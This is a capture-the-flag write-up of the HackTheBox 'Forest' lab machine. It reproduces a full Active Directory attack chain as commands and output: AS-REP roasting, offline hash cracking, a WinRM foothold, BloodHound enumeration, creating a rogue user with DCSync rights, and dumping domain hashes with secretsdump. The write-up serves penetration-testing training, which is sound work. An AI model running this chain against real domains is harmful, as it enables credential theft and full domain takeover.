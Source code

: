 ```yaml
---
title: HTB - Forest
date: 2024-03-16
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, forest, nmap, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/forest
published: true
image:
    path: machine_info.png
---
```


## HTB: Forest

>[Forest Box](https://app.hackthebox.com/machines/212)

![](forest_htb_diagram.png){: .normal}

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|ASREPRoasting|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _svc-alfresco_|
|2|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|3|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|4|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated privilege escalation path|
|5|Executed privileged escalation path|LOTL*|Created & added a domain user to the required groups|
|6|Assiged user DCSync rights|[DCSync.py](https://github.com/n00py/DCSync)|Obtained _administrator_'s NTLMv2 hash|
|7|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

*_[Living Off The Land](https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/)_

## Attack Chain Reproduction Steps

Obtained the TGT ticket of **_svc-alfresco_** via **ASREPRoasting**:

```bash
$ getnpusers -dc-ip 10.10.10.161 -request 'htb.local/'
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-03-15 17:01:22.890339  2024-03-15 16:37:07.184448  0x410200

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 svc-alfresco_tgt /usr/share/wordlists/rockyou.txt

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588:s<REDACTED>e

<SNIP>
```

The obtained credentials was subsequently domain-confirmed via [NetExec](https://github.com/Pennyw0rth/NetExec):

```bash
$ nxc smb 10.10.10.161 -u svc-alfresco -p s<REDACTED>e
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s<REDACTED>e
https://github.com/Pennyw0rth/NetExec
```

An initial foothold to the domain was achieved:

```bash
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s<REDACTED>e

<SNIP>

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The **_user.txt_** file was compromised:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> type desktop\user.txt
5a4<REDACTED>f85
```

Domain information was collected and then transferred to the attack host:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> upload SharpHound.exe

Info: Uploading /home/kali/htb/forest/SharpHound.exe to C:\Users\svc-alfresco\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco> .\SharpHound.exe -c All

*Evil-WinRM* PS C:\Users\svc-alfresco> download 20240315124803_htblocal.zip

Info: Downloading C:\Users\svc-alfresco\20240315124803_htblocal.zip to 20240315124803_htblocal.zip

Info: Download successful!
```

Upon review, two issues stood out:
  - _svc-alfresco_ was member of the ***[Account Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators)*** group as a result of **[group nesting](https://learn.microsoft.com/en-us/windows/win32/ad/nesting-a-group-in-another-group)** (Figure 1)
  - The _Windows Exchange Permissions_ group had _**WriteDACL**_ permissions over the _HTB.LOCAL_ domain, which means that its members can obtain **DCSync rights** (Figure 2)

![Figure 1: svc-alfresco is a part of the Account Operators group.](forest_account_operators.png)

![Figure 2: The Windows Exchange Permissions group has WriteDACL rights over HTB.LOCAL.](forest_writedacl.png)

Based on the above information, a new domain user account was created and added to the _Windows Exchange Permissions_ and the _Remote Management Users_ group (to allow WinRM remote management):

```bash
# create a new domain user
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain hacker hack3r123 /add
The command completed successfully.

# add user to the groups
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group /domain "Exchange Windows Permissions" hacker /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" /add hacker
The command completed successfully.
```

The user was then assigned the **DCSync rights**:

```bash
$ sudo python3 DCSync.py -dc htb.local -t ''CN=hacker,CN=Users,DC=htb,DC=local'' ''htb.local\hacker:hack3r123''
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=hacker,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\hacker account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User hacker now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240316-103635.restore
```

The **DCSync attack** was performed and the _Administrator_'s NTLMv2 hash was obtained:

```bash
$ sudo /opt/impacket/examples/secretsdump.py htb.local/hacker:hack3r123@10.10.10.161
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad<REDACTED>4ee:326<REDACTED>ea6:::
<SNIP>
[*] Cleaning up...
```

The obtained hash was used to log in as _Administrator_ and achieve **full domain compromise** by obtaining the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.161 -u administrator -p aad<REDACTED>ea6

<SNIP>

*Evil-WinRM* PS C:\Users\Administrator\Documents> *Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
58a<REDACTED>525
```